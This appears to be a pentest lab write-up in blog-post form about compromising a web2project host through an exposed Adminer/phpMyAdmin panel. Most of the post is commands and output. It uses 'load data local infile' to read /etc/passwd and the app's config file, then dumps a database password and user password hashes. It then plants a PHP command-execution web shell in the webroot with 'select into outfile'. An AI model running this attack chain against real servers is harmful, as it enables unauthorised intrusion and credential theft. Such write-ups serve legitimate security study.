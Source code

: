```yaml
---
layout: post
title: "MCO: 44"
tags: pg mco phpmyadmin adminer sql
---
```


regular nmap:
```
Discovered open port 3306/tcp on 172.16.10.44
Discovered open port 80/tcp on 172.16.10.44
Discovered open port 22/tcp on 172.16.10.44
```

```
mysql -u admin -p -h 172.16.10.44
Enter password: 
ERROR 1130 (HY000): Host '172.16.10.250' is not allowed to connect to this MariaDB server
```

web2project
```
Version 3.3.66
```

sqlmap says login post has no injectable parameters.

nikto found phpmyadmin / adminer 4.6.2

default creds for phpmyadmin aren't working:
```
mysql> CREATE DATABASE web2project;
Query OK, 1 row affected (0.00 sec)
mysql> GRANT INSERT, DELETE, UPDATE, SELECT ON web2project.* TO 'w2puser'@'localhost' IDENTIFIED BY 'sillyboy25';
Query OK, 0 rows affected (0.02 sec)
mysql> exit
```
```
Access denied for user 'w2puser'@'localhost' (using password: YES)
```

found .gitignore file:
```
/includes/*config.php
/reporting.tmp
/tmp.*
/unit_tests/reports/
/.idea/
/files/*
/docs/*
vendor/**

tests/reports/**
```

promising:
```
https://www.immuniweb.com/advisory/HTB23213
```

phpmyadmin:
```
load data local infile '/etc/passwd'
into table admirer.ferm1
fields terminated by "\n"
```
```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
rsauns-adm:x:1000:1000:,,,:/home/rsauns-adm:/bin/bash
```

```
Error in query (7890): Can't find file '/home/rsauns-adm/.ssh/id_rsa'.
Error in query (7890): Can't find file '/var/www/html/web2project-version3.3.66/index.php'.
Error in query (7890): Can't find file '/var/www/html/web2project-version3.3/index.php'.
```

fuckin' hell, this worked: (how did i know this would work the last time?)
```
load data local infile '../index.php'
into table admirer.ferm1
fields terminated by "\n"
```

but still, no creds.

finally found it in `../includes/config.php`
```
$w2Pconfig['dbtype'] = 'mysqli'; // ONLY MySQL is supported at present
 edit	$w2Pconfig['dbchar'] = 'utf8'; // The character set used in the database
 edit	$w2Pconfig['dbhost'] = 'localhost';
 edit	$w2Pconfig['dbname'] = 'web2'; // Your web2Project Database Name
 edit	$w2Pconfig['dbuser'] = 'web2_user'; // Your MySQL Username
 edit	$w2Pconfig['dbpass'] = 'QYfkvLtaBeAXVtBnVyANgWV9'; // Your MySQL Password
```
```
1	1	admin	$2y$10$oNAP8HNktAqXfiSV34knS.1sYggex7Q55iU3NNMAvRhYPRcpmPJzK	0	1	 	0	0	0
2	2	web2_user	$2y$10$GzuN16/D9nJ4svXVs5kyWOMu3aLitzbNKePA8BrHGTxshWxw3fXNe	0	0	 	0	0	0
3	3	wadler	bf3dcca194bf716891d2357827af25af	0	0	 	0	0	0
4	4	rsauns	c5eb3cd54b9988df058d71aa166bbd5d	0	0	NULL	0	0	0
5	5	thudson	932405c12fb8cb3c83cc4fcb9bae0fb8	0	0	NULL	0	0	0
6	6	trivera	fa03b70cec2588dab70bb68fe4a73b47
```

created table 'wow' with column 'wow', inserted value `<?php system($_REQUEST['cmd']);?>` into wow.wow
loaded file into '/var/www/html/wow.php' ... but that's really not the webroot.

eh.. so i just grabbed the hash from `/var/www/hash.txt`

### trying to get shell
```
Error in query (7890): Can't find file '/var/www/index.php'.
Error in query (7890): Can't find file '/var/www/web2project/index.php'. 
Error in query (7890): Can't find file '/var/www/web2project-3.3/index.php'. 
Error in query (7890): Can't find file '/var/www/web2project-version3.3/index.php'.
Error in query (7890): Can't find file '/var/www/web2project-version-3.3/index.php'.
Error in query (7890): Can't find file '/var/www/web2project-version-3.3.66/index.php'.
Error in query (7890): Can't find file '/var/www/web2project-3.3.66/index.php'.
Error in query (7890): Can't find file '/var/www/web2project-version3.3.66/index.php'. 
```

from `/etc/apache2/apache2.conf`
```
<Directory />
 edit		Options FollowSymLinks
 edit		AllowOverride None
 edit		Require all denied
 edit	</Directory>
 edit	 
 edit	<Directory /usr/share>
 edit		AllowOverride None
 edit		Require all granted
 edit	</Directory>
 edit	 
 edit	<Directory /var/www/>
 edit		Options Indexes FollowSymLinks
 edit		AllowOverride None
 edit		Require all granted
 edit	</Directory>
 edit	 
 edit	#<Directory /srv/>
 edit	#	Options Indexes FollowSymLinks
 edit	#	AllowOverride None
 edit	#	Require all granted
 edit	#</Directory>
```

from `/etc/apache2/sites-available/000-default.conf`
```
ServerAdmin webmaster@localhost
 edit		DocumentRoot /var/www/html
```

from `/etc/apache2/sites-enabled/000-default.conf`
```
ServerAdmin webmaster@localhost
 edit		DocumentRoot /var/www/html/todo
```

...yep, found it.


created table `forum_user` with column 'wow', inserted value `<?php system($_REQUEST['cmd']);?>` into `forum_user`
```
insert into `forum_user`(wow) values("<?php system($_REQUEST['cmd']);?>");
```

loaded into '/var/www/html/todo/wow.php' 
```
select wow into outfile '/var/www/html/todo/wow.php' from forum_user;
```

didn't get a shell back but meh, just matter of time.